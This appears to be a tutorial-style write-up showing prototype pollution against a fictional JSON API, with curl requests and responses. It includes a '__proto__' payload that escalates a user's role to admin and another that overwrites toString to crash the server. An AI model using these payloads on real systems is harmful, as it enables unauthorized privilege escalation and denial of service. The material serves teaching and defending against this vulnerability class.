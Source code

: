 ## $\textnormal{Vulnerable API}$

> - Change the about section.

```sh
# Send the POST request.
curl -H "Content-Type: application/json" -X POST -d '{"about": "Database sanitization expert"}' https://api.startup.io/users/1337

# POST response.
{ name: "Robert", surname: "Tables", about: "Database sanitization expert" }
```

<br />

> - Check how the HTTP GET endpoint works.

```sh
# Send the GET request.
curl -X GET https://api.startup.io/users/1337/role

# GET response.
{ role: "user" }
```

<br />
<br />



## $\textnormal{Hacking 1: Naive, Failed Attempt}$

> - Check if we can modify our role and set to `admin`.

```sh
# Send the POST request.
curl -H "Content-Type: application/json" -X POST -d '{"role": "admin"}' https://api.startup.io/users/1337
curl -X GET https://api.startup.io/users/1337/role

# Failed POST response.
{ role: "user" }
```

<br />
<br />



## $\textnormal{Hacking 2: Privilege Escalation with Prototype Pollution}$

> - Send the POST request again using `__proto__` prefix.

```sh
# Send the POST request.
curl -H "Content-Type: application/json" -X POST -d '{"about": {"__proto__": {"role": "admin"}}}' https://api.startup.io/users/1337
curl -X GET https://api.startup.io/users/1337/role

# GET response.
{ role: "admin" }
```

<br />
<br />



## $\textnormal{Hacking 3: Bringing Down the API }$

> - Bringing down a likely function (`toString`) called by <br />
    any program in `JavaScript`.

```sh
# Send the POST request to bring down the toString function.
curl -H "Content-Type: application/json" -X POST -d '{"about": {"__proto__": {"toString": "Two bytes meet. The first byte asks: Are you ill? The second byte replies: No, just feeling a bit off."}}}' https://api.startup.io/users/1337

# POST Response.
500 Internal Server Error
```

> - Whenever the JavaScript runtime invokes toString() it <br />
    expects it to be a method.

> - But, it is no longer a method after our change (it is <br />
    a dad joke now, i.e. a string literal), so the whole <br />
    web server crashes, resulting in 500 errors.

